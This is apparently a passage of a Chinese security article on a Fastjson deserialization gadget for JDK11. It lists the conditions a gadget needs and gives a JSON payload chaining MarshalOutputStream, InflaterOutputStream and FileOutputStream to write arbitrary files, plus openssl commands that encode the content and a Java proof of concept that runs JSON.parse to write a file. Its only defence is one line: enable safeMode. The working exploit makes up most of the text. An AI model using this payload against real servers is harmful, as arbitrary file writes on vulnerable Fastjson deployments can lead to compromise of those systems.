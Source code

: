   * 通过set方法或构造方法指定文件路径的OutputStream

  * 通过set方法或构造方法传入字节数据的OutputStream，并且可以通过set方法或构造方法传入一个OutputStream，最后可以通过 write方法将传入的字节码write到传入的OutputStream

  * 需要一个通过set方法或构造方法传入一个OutputStream，并且可以通过调用toString、hashCode、get、set、构造方法调用传入的 OutputStream的flush方法

下面是个网络上公开的一个Gadget，目前只适用于JDK11版本：

  *   *   *   *   * 

    
    
    $ echo -ne "RMB122 is here" | openssl zlib | base64 -w 0eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==  
    $ echo -ne "RMB122 is here" | openssl zlib | wc -c22

载荷如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    {    '@type':"java.lang.AutoCloseable",    '@type':'sun.rmi.server.MarshalOutputStream',    'out':    {        '@type':'java.util.zip.InflaterOutputStream',        'out':        {           '@type':'java.io.FileOutputStream',           'file':'dst',           'append':false        },        'infl':        {            'input':            {                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',                'limit':22            }        },        'bufLen':1048576    },    'protocolVersion':1}

测试载荷：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package org.heptagram.fastjson;  
    import com.alibaba.fastjson.JSON;import java.io.IOException;  
    public class FileWrite {    public static void main(String[] args) throws IOException {        String json = "{\n" +                "  '@type': \"java.lang.AutoCloseable\",\n" +                "  '@type': 'sun.rmi.server.MarshalOutputStream',\n" +                "  'out': {\n" +                "    '@type': 'java.util.zip.InflaterOutputStream',\n" +                "    'out': {\n" +                "      '@type': 'java.io.FileOutputStream',\n" +                "      'file': 'e:/filewrite.txt',\n" +                "      'append': false\n" +                "    },\n" +                "    'infl': {\n" +                "      'input': {\n" +                "        'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',\n" +                "        'limit': 22\n" +                "      }\n" +                "    },\n" +                "    'bufLen': 1048576\n" +                "  },\n" +                "  'protocolVersion': 1\n" +                "}";        JSON.parse(json);    }}

执行结果：

![]()

####

#### 防御措施  

开启safeMode

  * 
